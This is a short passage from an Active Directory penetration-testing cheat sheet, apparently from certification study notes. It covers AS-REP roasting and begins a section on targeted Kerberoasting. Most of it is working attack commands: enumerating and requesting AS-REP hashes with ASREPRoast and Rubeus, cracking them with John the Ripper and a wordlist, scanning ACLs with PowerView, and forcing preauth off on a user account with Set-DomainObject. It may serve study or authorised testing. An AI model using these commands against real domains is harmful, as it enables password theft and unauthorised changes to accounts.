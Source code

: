 **❗Enumerate all users with Kerberos preauth disalbed and request a hash**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">. .\ASREPRoast\ASREPRoast.ps1
<strong>Invoke-ASREPRoast -verbose | fl
</strong>
rubeus.exe asreproast /format:&#x3C;hashcat|john> /domain:&#x3C;DomainName> /outfile:&#x3C;filename>

rubeus.exe asreproast /user:&#x3C;username> /format:&#x3C;hashcat|john> /domain:&#x3C;DomainName> /outfile:&#x3C;filename>

Crack it
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
</code></pre>

**1.OR - Force disable Kerberos PreAuth if we have enough privs GenericWrite and Generic All on user Accounts**

**Enum permissions  for RDPUsers on ACL using PowerView Dev:**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

<strong>Set-DomainObject -Identity user1 -xor @{useraccountcontrol=4194304} -verbose
</strong>Get-DomainUser -PreauthNotRequired -verbose
</code></pre>

**2. Request encrypted AS-REP for offline cracking**

{% code overflow="wrap" %}
```powershell
. .\ASREPRoast\ASREPRoast.ps1
Get-ASREPHash -Username user1 -verbose
```
{% endcode %}

**3. Crack**&#x20;

{% code overflow="wrap" %}
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```
{% endcode %}



## 🎯🍳Targeted Kerberoasting - SetSPN

### Description

* With enought privs (GenericAll, GenericWrite) the SPN of a target User can be sot to anything
* We can request a TGS without special privs. The TGS can be kerberoasted

### Requirement

* None
